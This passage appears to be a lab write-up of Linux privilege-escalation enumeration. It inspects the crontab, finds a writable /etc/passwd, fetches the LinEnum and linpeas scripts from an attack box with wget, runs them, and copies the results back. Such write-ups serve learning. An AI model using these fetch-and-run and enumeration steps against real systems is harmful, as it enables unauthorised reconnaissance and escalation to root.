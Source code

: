 ```
user3@polobox:~$ grep /etc/shells -e bin | wc -l
4
```
What is the name of the bash script that is set to run every 5 minutes by cron?
```
user3@polobox:~$ cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user	command
*/5  *    * * * root    /home/user4/Desktop/autoscript.sh
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
```
What critical file has had its permissions changed to allow some users to write to it?

/etc/passwd has 664 instead of 644 permissions, but since the group is root this is not that big of a deal.
```
user3@polobox:~$ ls -la /etc/passwd
-rw-rw-r-- 1 root root 2694 Mar  6  2020 /etc/passwd
```
Although this doesn't tell me which script ran this, so I decided to get the LinEnum and linpeas scripts and see what I can gether from those.  After I pushed it to the server got the results

```
From my Attackbox (new shell)
root@ip-10-10-127-16:~# python3 -m http.server 9000


polobox:~$ wget http://10.10.127.16:9000/LinEnum.sh
polobox:~$ ./LinEnum.sh > LinEnum.txt
polobox:~$ wget http://10.10.127.16:9000/linpeas.sh
polobox:~$ ./linpeas > linpeas.txt

From linux box (new shell)
user3@polobox:~$ python3 -m http.server 9999

Attack box:
root@ip-10-10-127-16:~# wget http://linux:9999/LinEnum.txt
root@ip-10-10-127-16:~# wget http://linux:9999/linpeas.txt

root@ip-10-10-127-16:~# less -r LinEnum.txt
root@ip-10-10-127-16:~# less -r linpeas.txt




```
00;31m[-] Can we read/write sensitive files:
-rw-rw-r-- 1 root root 2694 Mar  6  2020 /etc/passwd
-rw-r--r-- 1 root root 1087 Jun  5  2019 /etc/group
-rw-r--r-- 1 root root 581 Apr 22  2016 /etc/profile
-rw-r----- 1 root shadow 2359 Mar  6  2020 /etc/shadow